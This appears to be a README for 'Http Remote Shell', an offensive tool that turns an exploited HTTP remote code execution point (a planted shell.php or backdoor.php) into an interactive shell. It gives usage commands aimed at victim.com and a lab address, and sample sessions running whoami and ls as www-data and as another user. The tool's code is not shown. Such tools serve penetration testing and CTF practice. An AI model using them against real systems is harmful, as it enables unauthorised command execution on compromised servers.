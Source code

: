 # Http Remote Shell

## Introduction

This tool gives a basic command line interface of an exploited HTTP RCE.
This might be useful if no bind-shell, nor reverse-shell can be setup.

> [The tool spawns a TTY shell with `/usr/bin/script` to correct the error: `su: must be run from terminal`](https://stackoverflow.com/questions/36944634/su-command-in-docker-returns-must-be-run-from-terminal)

## Usage

```bash
$ python3 ./http_rce.py -h
$ python3 ./http_rce.py --url 'http://victim.com/shell.php?cmd=MY_RCE_CMD&foo=bar' --http-method GET --headers '{"Cookie": "admin", "Host": "127.0.0.1"}'
$ python3 ./http_rce.py --url 'http://victim.com/shell.php?cmd=MY_RCE_CMD&foo=bar' --http-method GET --username '<USER>' --password '<PASS>'
$ python3 ./http_rce.py --url 'http://victim.com/shell.php?cmd=MY_RCE_CMD&foo=bar' --http-method GET --username '<USER>' --password '<PASS>' --regex 'Password: (.*), plz dont share it' --proxy 127.0.0.1:8080
$ python3 ./http_rce.py --url 'http://victim.com/shell.php?foo=bar' --http-method POST --data '{"cmd": "MY_RCE_CMD", "admin": "true"}' --username '<USER>' --password '<PASS>'
```

The command's placeholder in the URL MUST be `MY_RCE_CMD`.

## Examples

Running as default user (e.g. `www-data`):
```bash
$ python3 ./http_rce.py --url 'http://10.10.10.123/backdoor.php?c=MY_CMD' --http-method GET
bash > whoami
www-data

bash > ls
assets
css
index.php
js

bash >
```

Running as another user (e.g. `foo`):
```bash
$ python3 ./http_rce.py --url 'http://10.10.10.123/backdoor.php?cmd=MY_CMD&foo1=bar2' --http-method GET --username 'foo' --password 'bar123'
bash > whoami
foo

bash > ls
assets css index.php js

bash >
```
